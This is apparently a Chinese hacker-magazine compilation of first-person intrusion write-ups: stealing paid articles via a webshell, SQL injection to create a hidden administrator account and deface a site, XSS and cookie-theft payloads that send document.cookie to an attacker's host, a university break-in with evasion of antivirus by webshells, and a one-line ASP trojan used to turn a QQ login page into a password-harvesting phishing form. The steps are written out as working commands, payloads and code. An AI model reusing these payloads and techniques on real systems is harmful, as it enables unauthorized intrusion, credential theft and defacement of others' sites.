- 4. 移动代理似乎不支持长时间连接，所以 MSN 和 ICQ 会受影响，QQ 相对较好。  
- 5. 10.0.0.173 可下载不超过约 5M 文件（改真实 UA 可下载更大），10.0.0.172 在未改时大文件限制更明显。  
- 6. 由于服务器主要面向手机服务，某些网站会有小问题，但通常不影响正常浏览。

最后还是祝各位用 GPRS 的网友们上得开心，小弟才疏学浅，若本文有错误或考虑不周全的地方还望各位大虾多多指教。闪人咯~~

图 1  
图 2  
图 3

# 一个人的战争

各位黑客中人，大家的业余生活除了上网搞搞安全之外，想必都会有自己喜欢的杂志吧，毕竟电脑用多了对眼睛不好嘛。当然，《X档案》就不说了（什么？不混了吧你？不是，不是，我的意思是《X档案》是必选，不用提了而已，嘿嘿，误会，误会）。

小子比较喜欢的是《科幻世界》，号称是全球发行量最大的中文科幻杂志，紧跟世界科幻发展的步伐，立志于“中国人写自己的原创科幻”（行了，别打广告了）。言归正传，这么好的杂志当然要有自己的网站喽！我没事就到上面溜达溜达，这不，发现了个好东西“时光宝盒——科幻世界，十年数据”，如图 1。

过去一看，是 1991—2000 年十年间的《科幻世界》的文章数据。我开始还纳闷呢，这“时光宝盒”不是卖的吗？要 160 大洋呢，啥时候编辑变得这么有善心了？要是我把文章都拷下来……嘿嘿，没办法，穷人的孩子早当家啊！（晕！）

先随便点开一个文章，天，我终于明白了什么叫阶级压迫，什么叫有钱人的便宜不好占，如图 2。居然用的是内嵌的 flash！可怜我辛苦准备了一堆破解类山寨党的方法，竟然毫无用武之地。行，你不仁，莫怪我不义，所谓官逼民黑，民不得不黑！

抄起注入扫描工具就是一道扫射，哈哈哈哈——没扫着！也是，怎么说人家也是一大网站，又不是小孩的开裆裤，哪那么容易就有漏洞啊。

换个思路，查源代码。看到了如图 3 所示的句子，嗯？把这个 flash 下载下来看怎么。用 SWFDecoder 分析了一下，找到如图 4 所示的代码，看来这个 flash 文件又去调用了一个名为 showdetail.asp 的文件。整理一下思路：当我们访问 show.asp?ZTid=1 时，将 ZTid 的值传给 flash 文件，再由 flash 文件拿着这个值去找 showdetail.asp 要文章数据，然后在 flash 上显示出来。

那好，那我就先访问一下 showdetail.asp?ZTid=1（刚开始我重新开了一个 IE 窗口，结果发现显示“拒绝访问”，于是我猜想可能是 session 作怪，用原窗口打开，正常显示），如图 5。先下 10 篇测试一下。奇怪，怎么全是“拒绝访问”？

一拍脑门，我把那个 session 验证给忘了！……几天后，百无聊赖之际，我用 HDSI 2.2 最终版测试了一下旁注功能，随手测试了上传页面，居然蒙中了，如图 8。接下来就是套路了，用老兵的上传工具传个海阳 2006 上去，网站权限算是拿下了。可我的目标是十年的文章数据，于是翻箱倒柜一通好找，却只找到了几个 .mdf 文件……

后来想了想，没法直接得到数据库，我可以写个 asp 文件查询数据库啊，虽然我不会写 asp，可我会改啊……说干就干，找到 showdetail.asp 进行修改。

老实说，海阳 2006 的文本文件操作没有以前方便了，我只好用 cmd.asp 用 copy 命令将此文件改为 txt 后缀，然后用浏览器查看了一下，主要代码如下：

```asp
if session("sfw:uid")="" and session("online_ser")="" then
  response.write "js:拒绝访问"
  response.end
end if

zTid=Request("zTid")

SQL="select top ... from khsj where id='"&zTid&"'"
set rs=server.createobject("ADODB.Recordset")
rs.open sql,conn,1,1

if not rs.eof then
  rs("Readnum")=rs("Readnum")+1
  rs.update

  Response.Write("<z>"& rs("body") &"</z>")
  Response.Write(rs("Title"))
  Response.Write(rs("Author"))
else
end if
```

删除进行 session 验证的代码，这样就可以用 FlashGet 批量下载；对输出数据的代码调整如下：

```asp
Response.Write("标题"& rs("Title") & vbCrLf)
Response.Write("作者"& rs("Author") & "栏目" & rs("column") & "发表时间" & rs("year") & "年" & rs("issue") & "期" & vbCrLf)
Response.Write(rs("Text") & vbCrLf)
```

然后用“编程”功能保存为 xiaoshuo.asp，最后用 FlashGet 按上面介绍的方法批量 down 下来就 ok 了。终于突破了重重封锁，拿到了“穿越时空”的“时空宝盒”，把这作为生日礼物送给我那也喜欢科幻小说的兄弟真是再好不过了！

（本章中涉及到的程序 HDSI、SWFDecoder50_OFA、编码转换工具已经收录在光盘中）

=|CPO=bird

图 1  
图 2  
图 3  
图 4  
图 5  
图 6  
图 7  
图 8

# 一个人的战争

### 别小看了注入

寂寞天空

好久没人侵网站了，不为别的，只是感觉没意思，已经不做刚开始接触时那种每天都想要弄点小技术、和朋友一起无话狂聊了。或许是因为现在成熟点了，懂事了，就像小刀说的，“你只是被少数人捧起，大部分人踩在脚下的小人物……正视自己，学会低调”。

今天我的好朋友突然来找我，说他朋友开了个红客网站，准备进行红客教学，想让我帮忙检测一下站点安全性，我本来不想答应的，可是禁不住他软磨硬磨，嘴一软，就答应了。

踩点，入侵的关键的第一步。我不是扫描系统，而是扫描网站的注入点。不用说了，拿出时下最流行的 Domain 3.5 旁注工具，它自带了检测注入点的工具，把网址输入到当前路径，就可以自动检测注入点，如图 1。

运气不错，发现两个注入点。随便检测一下吧，进入到“sql 检测注入”栏，开始检测，很快结果就出来了，如图 2。

竟然可以执行命令，到此我们基本上可以推断，这个注入点可以让我们直接获取最高权限。Domain 3.5 毕竟不是专业的注入工具（个人观点），执行命令后回显很慢，我们就换一个注入工具，就用老牌工具吧——NBSI2（我想没有人会对它强大的功能质疑吧，注入界的老大，我使用的是 911 专版），进入注入分析，把刚才的注入地址填上，然后点击“检测”按钮，啪的一下，就显示了。然后我们选择“扫描及工具”下的子栏目——“NB COMMAND 命令执行器”，如图 4。

猜解网站的管理员用户名和密码，直接转到“mssql 辅助工具”栏，使用列目录，没反应，然后使用“命令行”，在“命令”栏里输入 `dir c:\`，然后点击“执行”按钮，等了一会儿，看吧，如图 3。

mssql 数据库，而且还是 sa 权限哦。哈哈，这次就不是要在网站上挂个 webshell 了，还要把你的服务器都拿下。

好了，刚才前面已经测试过了，可以直接执行命令，那我们就直接加个用户看看，命令：`net user acc$ accacc /add`，如图 5，成功添加了一个 acc$ 的隐藏用户，密码为 accacc。然后再提升为管理员吧，提升管理员命令为：`net localgroup administrators acc$ /add`，命令执行后也显示成功了，我们来确认一下看看是否真的加了个管理员，命令为：`net user acc$`，如图 6。

怎么样，看到了吧，用户成功建立，并且也加到了管理员组中，看来就快成功了，看看对方是否安装了终端服务，继续执行命令 `net start`（查看系统中开启的服务），果然看见了有“Terminal Services”，如图 7。

立即拿出 3389 登录器，进行登录，兴奋中……却没想到居然失败了，看来自端口给改了，不是默认的 3389。于是上传了 opents.exe，这是一个多功能的开 3389 的工具（无限制版），可以查看终端端口。运行格式为：`opents.exe -h`，运行后，顺利得到终端端口为 800。好了，再一次登录，嘿嘿，2003 服务器哦，如图 8。

这次当然是成功地登录进去了。呵呵，心血来潮，突然想改了他的首页，给他个教训再走，看他下次还敢在我面前瞎吹自己多厉害不？！进入系统，翻了下 c 盘，没有网站目录，通常都是在 d 盘或者 e 盘，于是进入 d 盘。却显示“无法访问”，如图 9。

不会吧？！我可是管理员耶，竟然无法访问，什么原因啊。又不可以直接对着盘符点击右键来设置权限，我倒，怎么回事，难道这就是传说中的“人品有问题”，不会吧？开玩笑哦。真的没有遇见过这样的情况，没想到网站那么不安全，系统竟然有怪招在保护着。翻翻自己的 blog，突然翻到设置权限方面的，才想起系统自带的命令行下的 cacls.exe 似乎可以修改权限，难道是这个？我们来试验，首先解决 d 盘的权限，命令为：`Cacls d: /t /e /c /g acc$;f`（意思是给 acc$ 开放对 d 盘的所有权限），以此类推，要 e 盘的所有控制权，就改为 `Cacls e: /t /e /c /g acc$;f`。此命令的相关重要格式我也贴出来吧，方便大家学习：

- 替换用户访问权限：将本机用户 acc$ 对 c 盘的完全控制权限替换为只读权限。在命令提示符对话框中输入 `Cacls c: /t /e /c /p acc$;r` 命令即可。  
- 撤销用户访问权限：要想撤销本机用户 acc$ 对 c 盘的完全控制权限也很容易，在命令提示符中运行 `Cacls c: /t /e /c /r acc$` 即可。  
- 拒绝用户访问：要想拒绝用户 acc$ 访问 c 盘及其所有子目录中的文件，运行 `Cacls c: /t /e /c /d acc$` 即可。

好了，解除了权限的设置，理所当然地帮他换个首页了，如图 10，刚才那么拽我哦！不过要先帮他备份，嘿嘿，怎么说也是朋友的站，给个教训就算了。利用上面的 cacls 给 d 盘重新设置权限，只有我这个用户可以修改，哈哈，这次看来他得求我才行了。

文章的最后我们来总结一下入侵的思路：找注入点→发现是 mssql 数据库，注入得到 sa 权限，一尝试直接调用 cmd 命令，成功→加用户，提升管理员→`net start` 查看所开的服务→利用 opents.exe 找到终端服务端口（800）→登录，发现权限被设置，用 cacls 恢复本用户的权限→改首页，端着灶吃（嘿嘿）。至于后门什么的，我就不放了，毕竟是朋友的网站嘛，当然了，日志文件也就不清除了，反正是友情检测而已！

（文章中涉及到的工具 Domain 3.5、NBSI2 911 专版、3389 登录器、opents.exe 已经收录于光盘中）

图 1  
图 2  
图 3  
图 4  
图 5  
图 6  
图 7  
图 8  
图 9  
图 10

# 一个人的战争

### 脚本漏洞的网站边缘地带 003896

### 计数统计系统的漏洞

邓文亮

各种动态脚本语言如 asp、php，给网站建设带来了快速便捷的同时，也给网站带来很多的安全问题。各种脚本漏洞被张贴在各大安全站点、黑客杂志，从最早的引号过滤漏洞，到 Unicode 漏洞，再到各种花样的 SQL 注射漏洞，真是层出不穷。于是吸引了大量的黑客和安全人士来研究……本文以网站计数统计系统为例，主要阐述我发现的两个网站计数统计系统的漏洞。

在网络大众化的环境下，我也试着学了点脚本，在网上建了个家，还放上个武林榜计数统计（50bang.com）。这天怀疑武林榜存在漏计数现象，于是决定在自己的网站空间上装一个计数统计程序对比一下……在网上搜罗一番，觉得 Ourplus 这款用 php 写的统计系统各方面都比较合我意，就下载新版 0.9 beta 装上了。

第二天，发现这个统计系统的编码是 GB2312，跟我网站的 UTF-8 不一致，虽然使用上没有太大问题，但总觉得别扭，心想何不把源代码读懂了，自己再写一个……这里我把这个计数系统的运作原理以及漏洞的产生分析一下。计数系统要在统计数的网页上嵌入如下代码：

```html
<script type="text/javascript" src="http://www.example.com/ourplus/count/count.js"></script>
```

上面 www.example.com 为计数系统所在的网站，/ourplus 为计数系统所在路径。顺藤摸瓜，打开 count 文件夹下的 count.js，是一段 javascript 代码。前面的代码会采集客户端信息：访问页面网址、来源网址、屏幕大小、操作系统及浏览器等。中间有段代码设置 cookie，用来统计所谓的回头客……一直看到这样的句子：

```javascript
document.write('<script src="' + _OurplusCountUrl + '"></script>');
```

此句在非调试状态下才执行，但默认状态就是非调试状态。可以看到这个句子往文档里写入脚本调用的 script 标签，调用的地址是 _OurplusCountUrl。我们再回头找，看看这个 _OurplusCountUrl 是什么，找到这样的句子：

```javascript
var _OurplusCountUrl = _OurplusCountPage + '?'
  + '&counturl=' + _OurplusCountUrl
  + '&pageurl=' + _OurplusPageUrl
  + '&referer=' + _OurplusReferer
  + '&language=' + _OurplusLanguage
  + '&color=' + _OurplusColor
  + '&screensize=' + _OurplusScreenSize
  + '&debug=' + _Debug
  + '&firsttime=' + _OurplusFirstTime
  + '&lasttime=' + _OurplusLastTime
  + '&type=' + _OurplusType
  + '&charset=' + _OurplusCharset
  + '&timezone=' + (new Date()).getTimezoneOffset()/60;
```

想一想平时看到一些带参数的网页的 url 的样子：article.php?id=123&page=4。对比一下上面这个长句子，就知道它在构造一个带参数的 url，把搜罗得到的客户端信息传递给一个脚本，脚本的文件名放在 _OurplusCountPage 变量里。于是我们继续找 _OurplusCountPage 看看装了什么，这个变量在脚本开头定义的，可以找到是 count 文件夹下的 count.php。

这里先梳理一下 count.js 的运作。它在客户端的浏览器执行，先收集客户端的各种信息，然后把这些信息作为 url 参数传递给 count.php 进一步处理。它用 document.write 写入一个 script 标签，其 src 属性指示了要执行的 javascript 脚本的位置（就是上文说的 _OurplusCountUrl 变量的内容）。浏览器读取执行 script 标签中的脚本时，会向服务器请求 src 所指的文件，并执行服务器返回的“文件结果”。平时 src 指向 .js 文件时，返回文本内容；这次提交的是 .php 脚本，因此先由服务器执行，再把执行结果返回给客户端作为 javascript 执行。

接下来我们继续顺藤摸瓜看看 count.php，除了开头几句 include 把函数、类等包含进来，正文居然只有一句：

```php
$Stat = new _Stat();
```

就是说把整个计数过程都封装到 _Stat 类里了。那就继续打开这个类的 include.inc/stat.class.php 文件，其它内容这里就不分析了，直接看它对变量的过滤，也就是对 count.js 传来的参数的过滤。接收参数主要在 GetViewerInfo() 方法中……

# 一个人的战争

一些句子（还有些变量的忽略）：

```php
$this->ViewerInfo[page] = $_GET[pageurl];
$this->ViewerInfo[REFERER] = $_GET[referer];
$this->ViewerInfo[language] = strtolower($_GET[language]);
$this->ViewerInfo[color] = $_GET[color];
$this->ViewerInfo[screen] = $_GET[screensize];
$this->ViewerInfo[HTTP_USER_AGENT] = $_SERVER['HTTP_USER_AGENT'];
$this->ViewerInfo[REMOTE_ADDR] = $_SERVER['REMOTE_ADDR'];
$this->ViewerInfo[timezone] = $_GET['timezone'];
$this->ViewerInfo[firsttime] = $this->GetFLTime($_GET['firsttime']);
$this->ViewerInfo[lasttime] = $this->GetFLTime($_GET['lasttime']);
$this->ViewerInfo['return'] = intval($_GET['return']);
$this->ViewerInfo['counturl'] = $_GET['counturl'];
```

我们看到很多参数都是从 `$_GET` 直接赋值给数组 `$this->ViewerInfo`，没有经过任何过滤。……看到这句：

```php
$Sql = "INSERT INTO ... $this->TableList[$Type] ... VALUES ('" .
$this->ViewerInfo[$TypeN] . "' ... {$this->ViewerInfo[REFERER]} ... );
```

还有这句：

```php
$Sql = "INSERT INTO ... $this->TableList[ip] (`ip`,`time`,`pageurl`,`pagefrom`,`language`,`color`,`screensize`,`http_user_agent`,`pagefromsite`,`keyword`,`country`,`address`,`alexa...`,`timezone`,`firsttime`,`lasttime`,`browser`,`system`,`todayfirst`,`return`) VALUES (...)";
```

已经把数据写数据库了，之前没有看到任何过滤。……随后在论坛交流，作者提到对接收数据进行了 `intval` 和 `strval` 处理。继续追踪后发现 `page` 变量在赋初值时未过滤，于是构造跨站脚本测试：

```html
"><script type="text/javascript">alert('你的程序可能有sql注射漏洞和跨站攻击安全漏洞。欢迎交流：nick-ruler@21cn.com');</script>
```

因为作者的网站也用此计数系统，如果能在他站上弹个窗口……

说有漏洞，就能有效提醒他修补程序了。上面这句语句前端的 `">` 是为了闭合 HTML 标签。可先进行 URL 编码，命令行输入 php 后执行：

```php
<?php
echo urlencode('"><script type="text/javascript">alert("你的程序可能有sql注射漏洞和跨站攻击安全漏洞。欢迎交流:nick-ruler@21cn.com");</script>');
?>
```

按 F6 回车可得到编码结果，并返回命令行状态，如图1。


图1

据此可以构造如下测试攻击 URL：

```text
http://www.example.com/ourplus/count/count.php?
referer=&language=en&color=2&screensize=4*3&debug=&firsttime=1&lasttime=1&type=0&charset=gb2312&return=0&timezone=0&pageurl=%22%3E%3Cscript+type%3D%22text%2Fjavascript%22%3Ealert%28...%29%3C%2Fscript%3E
```

先用我的小站测试，替换网址和路径，浏览器访问后再查看计数系统“访问明细”，即可看到预期对话框，如图2、图3。


图2


图3

现在就如法炮制，给这套计数系统的作者弹个窗口提个醒。

官方网站上使用的是多用户版，查看一下网页源代码就可以得到 `count.php` 的网址，并且得到多用户版还要添个 `countid` 参数，且其使用的 `countid` 号为 35。按这些修改一下攻击 URL，填到浏览器地址栏上回车……给作者再发一个短消息，叫他去看官方网站上计数器的访问明细，如果弹出窗口就说明有漏洞。


图4

其实这里变量没有过滤除了能引起跨站漏洞外，还能引起 SQL 注射漏洞……在 `magic_quotes_gpc` 打开的服务器上，SQL 注射漏洞不会显现出来，但如果服务器没有打开该选项又用了这套计数程序，那就是显然的 SQL 注射漏洞。此外，这套 OupIolS 统计系统还有一处安全隐患，就是在程序文件夹中放了一个 `phpinfo.php` 文件……这个虽然算不上漏洞，但是把系统的重要信息都直接暴露在外。


图5

这套计数系统存在变量没有过滤这种低级错误，我想主要原因有：

- 1. 目前脚本漏洞的研究主要集中在论坛、blog 这种全站程序，而统计类系统这种脚本程序的安全问题被重视相对较少；
- 2. 这个计数系统用了二重脚本……在开发者眼中，PHP 脚本参数来自 JS 脚本，容易造成对这些参数信任而不过滤，但实际上可直接调用 PHP 脚本从而控制参数。

那么，是否可以合二为一，不使用二重脚本而只使用一重脚本呢？可以，但是要牺牲一些功能……接着，我就想起了武林榜计数器也有统计屏幕大小和颜色数的功能，所以也极有可能是双重脚本，上述促使开发者犯变量没过滤错误的两个因素都具备了，我就帮它测试一下吧。

武林榜的计数代码是：

```html
<script type="text/javascript" src="http://union1.50bang.com/click.js?user_id=30485"></script>
```

这个 JS 还是动态的，带个参数……输入到浏览器地址栏回车，然后用浏览器“查看源代码”功能，就能看到完整代码了。往前找，很快跳到二重脚本的第二重：

```javascript
document.write("<script language=\"JavaScript\" type=\"text/javascript\" src=\"http://60.28.252.118/info.cnt...\"></script>");
```

脚本文件是 `http://60.28.252.118/info.cnt`，参数是变量 `r`，我们往上找 `r`，找到这些行：

```javascript
r='?id='+siteid+'&referer='+fromurl+'&resolve='+resolve+'&navigator='+soft+'&color='+color+'&title='+title+'&resource='+resource+'&clientsys='+clientsys+'&r='+...;
```

前面的 `siteid` 要把自己的用户 ID 填进去……先简单点，用一个 `<p>abc</p>`，编码后是 `%3Cp%3Eabc%3C%2Fp%3E`，代入各个参数中构成测试 URL：

```text
http://60.28.252.118/info.cnt?id=30485&referer=%3Cp%3Eabc%3C%2Fp%3E&resolve=...&navigator=...&color=...&title=...&resource=...&clientsys=...&flux_stat_user=...&flux_newuser=10
```

复制粘贴到浏览器地址栏回车，没有反应，似乎失败了。登录统计系统去看哪里出现高度特别大的 abc……找了半天没有找到，后来在来源页面一项找到了“特别高”的 abc。


图6

这就奇怪了，刚才明明看过这页……后来明白了，这套系统使用了缓存技术，最新的访问要过几分钟才能显示出来。这下基本能证实存在跨站漏洞了，也尝试做一个弹出对话框，构造的 URL 如下：

```text
http://60.28.252.118/info?cntid=30485&referer=...<script type%3D%22text%2Fjavascript%22%3Ealert(...)...</script>...
```

这次重点攻击 `referer` 参数，其他参数就随便填。等几分钟后服务器缓存刷新，登录，却没有弹窗，怎么又失败了？


图7

但是后面的列表页也没有显示啊。看起来 script 是执行了但执行得不顺畅，于是打开 Firefox 的 JavaScript 控制台，如图8。


图8

这下明白了，是提交的参数太长被截断了。那就让它调用外部 JS 脚本好了。写一个 `1.js` 文件，把那句长长的 `alert` 上传到空间，然后 `referer` 参数构造如下：

```html
<script src=http://mysite.com/1.js></script>
```

编码后代入攻击 URL 再贴到浏览器上执行，等几分钟缓存刷新，登录看“来源页面”，如图9，说明成功了。


图9

至于武林榜的 SQL 注射攻击测试，首先在上面那些带双引号的跨站脚本能够成功，说明过滤了双引号；其次提交单引号，结果单引号能正确显示到页面上，说明单引号也作了过滤。具体是程序过滤还是 `magic_quotes_gpc` 过滤就不清楚了。

至此我的攻击测试就结束了，当然后面要玩下去还是有很多东西可以玩的。例如跨站漏洞的利用，随手抓一本 05 年 5 月的黑X档案，就有《被遗忘的利用》《利用跨站从 bo-blog 得到 webshell》；再抓一本 05 年 6 月的 X 档案，又有《Discuz! 跨站也精彩》。虽然计数系统有其特殊性，跨站利用不能照搬这些文章，但很多思路都可以借鉴。

- 1. 不记得谁说过“黑客使网络更安全”这句话。论坛、blog 程序等处于半公开状态的信息系统漏洞已被越来越多关注，但统计类系统这种脚本程序不容易被重视，问题也较易被忽略。
- 2. 计数系统一旦要统计屏幕大小和颜色数这类与客户端密切相关的信息，就要用双重脚本。开发者容易误以为第二重 php/asp 参数来自第一重 js 而不是用户，因而信任参数不做过滤，导致跨站或注射问题。
- 3. 跨站攻击有时代码长度受限。可用 iframe，也可用 `<script src=url></script>` 引外部 JS，从而绕过长度限制。
- 4. 很多跨站教程讲偷 cookie，常见构造如下代码。

```asp
fcome=request("webcome")
fip=Request.ServerVariables("HTTP_X_FORWARDED_FOR")
if fip="" then fip=Request.ServerVariables("REMOTE_ADDR")
sql="insert into fcount (...) values ('"&fcome&"',...,'"&fip&"')"
conn.execute(sql)
```

这里 `webcome` 参数传给 `fcome` 后没有过滤就直接写进 SQL 语句，可见注射漏洞的存在。也说明对第二重脚本没有过滤变量在一定程度上是双重脚本计数系统的通病。

```html
<script>window.open('http://mysite.com/my.php?'+document.cookie)</script>
```

其中 `http://mysite.com/my.php` 是自己空间中用于接收 cookie 的脚本。这个代码会弹出一个窗口，于是为了掩人耳目，又在 `my.php` 的末尾写一句：

```php
header("Location:http://originalsite.com");
```

`http://originalsite.com` 是原来被攻击的站点。这样弹出的窗口又跳转回原站点页面。

启发，可以造出一种更完美的方法，这里假设代码长度不受限制（在长度受限制的场合用上面第3点讲的方法解决好了），那么用下面的代码即可不弹出窗口：

```html
<script>document.write('<script src="http://mysite.com/my.php?'+document.cookie+'"></script>');</script>
```

由于没有弹出窗口，`my.php` 脚本的末尾也不需要任何跳转。于是受害者在神不知鬼不觉之中，cookie 就被盗走了。当然严谨一点的话上面这个 `document.cookie` 应该用 `escape(document.cookie)` 替换以保证参数能顺利传给 `my.php`，再用函数 `urldecode` 或 `rawurldecode` 解码。希望本文能启发大家找到本漏洞不一定非在论坛、blog 这些大螃蟹下手。一些边边角角的程序，什么计数统计、什么投票调查、各种广告、留言簿等等，都有可能出漏子，而且可能是软肉。也希望能提醒脚本程序开发者，写程序无论大小，都应该注意安全性。本文有任何不妥当的地方，还请大家给我指正。


### 三、找 Web 虚拟目录

这是我们入侵的第三步。为什么要找 Web 目录？很简单，要上传我们的 ASP 木马呀！是 sa 连接的 MSSQL Server 数据库。我们一定有列举目录的权限，它是以 system 权限运行的，操作系统的最高权限。


### 二、前言

如今的黑客入侵和前几年已经大不一样了，从系统漏洞得到 cmdshell 的好事儿越来越少了。而脚本入侵的兴起，则再一次给了许多喜欢动脑筋的菜鸟以一显身手的机会。这一次我就到某高校站点做测试，想看看外面的“世界”，看看那些名牌大学的网站的安全怎么样！

### 三、脚本漏洞发现

找注入点的简单方法是用阿D注入工具，因为使用的是多线程技术，所以速度很快，它还可以检测出 PHP 注入漏洞。通过它我发现了某站 `ReadNews.asp?id=1037` 有注入漏洞。现在的判断方法有 `and 1=1`、`and 1=2`、`/**/and/**/1=1;#` 等（对付过滤空格的 ASP）。


利用 `xp_cmdshell` 存储过程。先看看它的操作系统版本，在阿D里执行命令 `ver`，是 Win2000 的系统！我又运行 `net start`、`net view`、`netstat -an`、`ipconfig -all`、`ping` 等命令，分别查看了对方开启的服务、共享情况、网络配置等信息。


- 1. 这个网段中有八台主机，其中 web-server 和 database-server 是分开的。
- 2. database-server 主机的 IP 地址与 web-server 主机 IP 可被识别。
- 3. database-server 主机没有安装 IIS，没有开放 80 端口。
- 4. database-server 主机开放了 3389 端口，但是有防火墙 rising personal firewall service，可以添加用户，然后用 mstsc 连接。`net stop rising personal firewall service`。不过其它几台中可能有硬件防火墙。
- 5. 安装几个 root kit，然后用 1403 端口连接。然后继续渗透。


对应的数据库中的数据库名和目录的名，我发现了进入网络办公的用户名和密码，成功进入如图10。

难度可想而知。首先，上传文件这关就过不去，我想防火墙的规则可能是除了 1403 端口，其它都屏蔽。

### 四、分析网站的组成，找突破口

自己的 webshell 上不了 database-server 数据库的主机，那 web-server 应该可以吧，但是不能 echo 写到 web 服务主机，那它一定有后台管理吧！

用较老 SQL 注入工具 scan 它的后台，结果什么都没有（图6）！现在的网管安全意识很高，知道改名了。

想了片刻拿出了看家本领，FlashGet，后台管理也没凡人的呀，所以一定能找到的。在 FlashGet 工具站点资源搜索器中输入 `http://www.xxx.edu.cn/`，慢慢找它的后台，如图7。


### 五、上传 webshell

新闻管理有上传文件附件的地方！上传个 ASP 文件看看，成功了！连 `sAllowExt=replace(Ucase(sAllowExt),"asp","")` 都会忘了写！先上传个小马，然后再上传个大马。把木马改个密码 `123456`，为了隐藏我把文件名写成 `vote.asp`！上传上去把木马备份！然后 delete 你上传的文件附件，把自己的 IP 记录搞定，然后用 myIE 的代理上我新备份的 webshell。如图13，FSO 可用。


`Login.htm` 应该是了吧！NBArticle 的后台就是这个样子的，htm 提交 asp 处理，打开还真的是。编这个网站的程序员是个高手呀，然后在数据库中找 `admin&password` 的类似字段，找到后登录。结果如图8，限制 IP 登录范围，够狠！网管也是把好手！


看看它的 `wscript.shell` 可用否！

```text
Net user
xxxWEB-SERVER 的用户账户

admin-xxxweb-server  admi-delisi-8232134  administrator
Guest  IUSR_xxxMSSQL2000-S  IWAM_xxxMSSQL2000-S
TsInternetUser
命令成功完成。
```

看看它的网络配置！


进入内部网，好东西呀！可能是个突破。如图9，在数据库中找到了进入的用户名和密码。网络办公应该有上传的地方吧！

# 一个人的战争


又有了它的 conn.asp。

```asp
<%
strSql="DSN=Cugb_News;uid=xxxnews;pwd=cxxnews;"
Set Conn=Server.CreateObject("ADODB.CONNECTION")
Conn.Open strSql
%>
[id]:2[ipwd]:2395=* @#@ [userid]:cbz
```

我可爱的 webserver 呀！终于到手了！


图12


图13


### 隐藏及加密 webshell

隐藏及加密 webshell 的方法有很多，由于我是个菜鸟，不会编程，就写几个简单易用的方法。

- 1. 用 c/s ASP 木马，服务端就一句话，然后用微软的加壳工具加密……分别如图14、图15，再上传到服务器并改时间。
- 2. 用伯乐和马木马免杀器加密。你知道它是什么杀软，就可以制作免杀的 ASP 木马。
- 3. 最好的方法是把调用 shell 的部分封装到 dll 里（文中提及 2005 年趋势），插入 system 进程提升权限等。

但是我相信只要你有黑客精神，有永不放弃的精神！你就可以做到！！


图14


图15

> （文章中涉及到的工具如 D 注入工具、aspdecoder、flashget、教主 SQL 注入工具、海阳 2006 ASP 木马已经收录于光盘中）


```html
...（一个提交）
<script language="javascript">
this.document.forms[0].submit()
</script>
</form>
```

那么我们写一段 `<iframe src='http://www.huji.net/miyabi.html' width=0 height=0></iframe>`，就可以让他们进入页面的时候给我们提交表单了……这完全不需要对方站点有漏洞。

假设你黑掉了 www.xxx.com，你只要在首页或其他文件里加上 iframe 为其他类似的表单，欺骗 www.0000.com 浏览 www.xxx.com，也可以控制对方给你以他的身份提交任意数据到 www.0000.com……

你要保证的是你的欺骗够完美，那么 HTML+JS 可以做的事情就不仅仅是偷 cookie 和 iframe 挂马这么简单了。

跨站本来就是欺骗性质的东西，所以，你要完美的演技……


# 一个人的战争

前不久上 QQ 老是收到好友挂机的信息，这次看到了同学发来的信息，无意中打开一看，那个网站的访问量还挺大的，排名也不错，突然就有了想入侵它的冲动。

QQ 挂机的页面没什么看头，看了看主站，使用的是 ASP，试了几个链接尝试 SQL 注入，都失败了。然后就想着找二级链接用“%5c”爆库，不过很遗憾，没有找到，正打算放弃的时候，突然看到有注册，就注册了一个进去玩儿，注册成功后返回一个地址，如图1。


看来有点儿希望了，改成 `http://www.xxx.com/system/admin%5csave_user.asp`（具体域名就以 xxx 代替了），数据库路径给爆了出来，如图2。


换成 URL 就是 `http://www.xxx.com/system/xxxx/system.asp`。数据库是出来了，还是 ASP 的，未做防下载处理。但我们如何利用呢？开始我们已经注册了用户，登录上去看看吧，看到有“个人信息修改”，我们在地址或个人主页那里写上一句话代码 `<%execute request("value")%>`，如图3。

在自我介绍栏里我也进行了测试，只要写了代码就会被转义。然后我们重新看下数据库文件 `http://www.xxx.com/system/xxxx/system.asp`，看最下面的数据，如图4。

> Microsoft VBScript 运行时错误 '800a000d' 类型不匹配: 'execute' /system/xxx/system.asp，行838

说明我们已经成功把一句话木马的代码写进数据库了，然后把以下代码保存为 HTM 格式，就可以本地上传一个木马了。

```html
<form action=http://www.xxx.com/system/xxxx/system.asp method=post>
<textarea name=value cols=120 rows=10 width=45>
set IP=server.createObject("Adodb.Stream")
IP.Open
IP.Type=2
IP.CharSet="gb2312"
IP.writetext request("fhod")
IP.SaveToFile server.mappath("ck.asp"),2
IP.Close
set IP=nothing
response.redirect "ck.asp"
</textarea>
<input type=submit value=提交>
```

我写了一个海阳的木马，然后提交，返回登录界面，`http://www.xxx.com/system/xxxx/ck.asp`，如图5，成功了。其实关于上边的这些步骤，在许多文章里都有过，因此在某些细节上我就一带而过了，下面的内容才是最主要的，就是如何利用这个挂 Q 的网站实现一次钓鱼攻击。拿到 SHELL 后进入 QQ 目录，看到实现挂机的也是 index.asp 和 def.asp 两个文件，其中代码是调用了服务器安装的组件。

具体什么组件就不清楚了。看下 index.asp 代码：

```asp
<form method="POST" action="index.asp">
<tr><td colspan=2 align=center bgcolor="#F5F5F5">用户登陆</td></tr>
<tr><td></td>
<td>QQ号码:<input type=text size=20 name=QQ value="<%=QQ%>"><br>
密  码:<input type=password size=20 name=Password value="<%=PWD%>"><br>
```


图5

登录过程就是这样实现的（限于篇幅，完整代码就不发了）。那我们是否可以修改这里的代码来实现钓鱼呢？也就是当别人来挂 QQ 输入了 QQ 和密码只要点了登录，那么对方的 QQ 和密码就会发到我们预先设定好的一个地方，这里我们用 ASP 来实现。下面是我修改后的 index.asp 主要代码：

```asp
<table border=1 bordercolor="#CCCCCC" cellpadding=4 class=use1><form method="POST" action="http://www.ciker.org/qq/qqs.asp">
<tr><td colspan=2 align=center bgcolor="#F5F5F5">用户登陆</td></tr>
<tr><td></td>
<td>QQ号码:<INPUT class=inp type=text size=20 name=QQ value="<%=QQ%>"><br>
密  码:<INPUT class=inp name=mima type=password size=20 value="<%=PWD%>"><br>
登陆模式:<select size="1" name="kLoginMode" style="width:100px">
```

这段代码的意思是输入的 QQ 和密码都会提交到 http://www.ciker.org/qq/qqs.asp 里去，然后我们再来看一下 qqs.asp 的代码，经过我修改的：

```asp
<!--#include file="conn.asp"-->
<%
qq=request("qq")
mima=request("mima")
set rs=server.createobject("adodb.recordset")
sql="select * from qq"
rs.open sql,conn,1,3
rs.addnew
rs("qq")=qq
rs("mima")=mima
rs.update
%>
<script language="javascript">
